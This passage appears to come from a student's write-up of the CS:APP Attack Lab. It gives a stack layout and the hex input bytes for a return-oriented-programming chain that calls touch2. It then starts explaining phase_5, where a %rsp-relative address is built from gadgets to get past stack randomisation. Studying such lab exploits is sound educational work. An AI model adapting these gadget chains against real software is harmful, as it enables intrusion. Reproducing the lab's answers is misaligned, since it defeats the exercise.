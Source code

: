 ```c
| return: touch2 |   
|return: 0x4019a2| // execute 48 89 c7(moveq %rax, %rdi) then ret
|  cookie value  | // after popq, the value here is stored in %rax
|return: 0x4019cc| // execute 58 (popq %rax) then ret
|     ....       |   
|     ....       | 
|     ....       |   
|     ....       |   
|     ....       |
|     ....       | // %get buf start
```

So we can get the answer: (Note: `ret` get 8 bytes of address)

```c
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

### phase_5

This phase requires us to repeat the attack of phase_3, but using `Rtarget`.

Including `movq` `popq` `ret` `nop`, we can now use `movl` and additional `func nop`(`andb`, `orb`, `cmpb`, `testb`). Note these `func nop` do not change the value in our registers.

Recall the phase_3, we need to realize:

1. save cookie in address `x`, move `x` to `$rdi`
2. execute `touch3`

Note we can't declare an address `x` directly like `phase_2` because of **stack randomization**, how could we get the address of `x`?

Although the address of `%rsp` is always changing, **the offset is always the same**. For example, we may put our string in address `%rsp + 0x30`, and pass the address (`%rsp + 0x30`) to `%rdi`.

So we may want to find instructions like:

```c
popq %rax                   // and our offset saved in %rax
lea (%rsp, %rax, 1), %rdi
```

Unlucily, we don't find an instruction for `lea (%rsp, %rax, 1), %rdi`, but we can find another one here:

```c++
00000000004019d6 <add_xy>:
  4019d6:  48 8d 04 37            lea    (%rdi,%rsi,1),%rax
  4019da:  c3                     retq   
```
